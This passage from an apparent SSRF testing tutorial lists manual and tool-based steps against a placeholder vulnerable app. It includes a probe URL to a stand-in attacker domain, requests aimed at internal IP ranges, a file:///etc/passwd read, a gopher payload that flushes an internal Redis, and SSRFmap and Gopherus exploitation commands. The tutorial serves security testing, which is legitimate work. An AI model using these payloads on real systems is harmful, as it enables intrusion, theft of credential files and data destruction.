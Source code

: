 #### 2. Inspect Request Behavior

Submit test payloads and observe application behavior:

```
https://vulnerable-app.com/fetch?url=https://attacker-controlled-domain.com/ssrf-probe
```

Set up a server at `attacker-controlled-domain.com` to detect incoming connections. Use tools like [Burp Collaborator](https://portswigger.net/burp/documentation/collaborator) or [Interactsh](https://github.com/projectdiscovery/interactsh) to catch out-of-band connections.

#### 3. Test for Internal Access

Try accessing internal resources:

```
https://vulnerable-app.com/fetch?url=http://localhost/
https://vulnerable-app.com/fetch?url=http://127.0.0.1/
https://vulnerable-app.com/fetch?url=http://10.0.0.1/
https://vulnerable-app.com/fetch?url=http://172.16.0.1/
https://vulnerable-app.com/fetch?url=http://192.168.1.1/
```

#### 4. Test Non-HTTP Protocols

Attempt to use other protocols to identify cross-protocol attacks:

```
https://vulnerable-app.com/fetch?url=file:///etc/passwd
https://vulnerable-app.com/fetch?url=dict://internal-service:11211/stats
https://vulnerable-app.com/fetch?url=gopher://internal-redis:6379/_FLUSHALL%0D%0ASET%20mykey%20%22Hello%20SSRF%22%0D%0AQUIT
```

### Automated Testing Techniques

#### Using Specialized SSRF Tools

Several tools can assist in SSRF detection:

1. **SSRFmap**: [SSRFmap](https://github.com/swisskyrepo/SSRFmap) automates SSRF exploitation across various services

```bash
python ssrfmap.py -r original_request.txt -p url -m redis
```

2. **Gopherus**: Generate [Gopherus](https://github.com/tarunkant/Gopherus) payloads for specific services:

```bash
gopherus --exploit mysql
```

#### Burp Suite SSRF Detection

Configure Burp Suite for effective SSRF testing:
